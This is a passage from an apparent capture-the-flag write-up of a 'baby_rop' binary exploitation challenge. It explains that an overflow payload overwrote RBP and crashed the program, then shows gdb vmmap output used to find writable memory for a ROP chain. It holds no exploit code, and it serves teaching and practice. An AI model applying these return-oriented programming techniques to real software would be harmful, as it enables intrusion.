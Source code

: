 ![GDB crashes when it shouldn't](/images/baby_rop/gdb-final-crash.png)

The instruction that crashed the program tried to access $rbp - 0x78. However, the value of the RBP register is 0x4141414141414141, which indicates that it has been overwritten by our payload. We need to set RBP to a writeable portion of the stack. gdb's 'vmmap' command returns all memory blocks used by the program and their permissions, which is very helpful in this case:

{% highlight auto %}

gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00401000         0x00402000         r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00402000         0x00403000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00403000         0x00404000         r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00404000         0x00405000         rw-p	/home/yakuhito/ctf/ecscquals2020/baby-rop/pwn_baby_rop
0x00007f663189c000 0x00007f66318c3000 r-xp	/lib/x86_64-linux-gnu/ld-2.27.so
0x00007f66318cd000 0x00007f66318cf000 rw-p	mapped
0x00007f66318cf000 0x00007f66318f4000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f66318f4000 0x00007f6631a6c000 r-xp	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631a6c000 0x00007f6631ab6000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631ab6000 0x00007f6631ab7000 ---p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so
0x00007f6631ab7000 0x00007f6631aba000 r--p	/home/yakuhito/ctf/ecscquals2020/baby-rop/libc6_2.31-0ubuntu9_amd64.so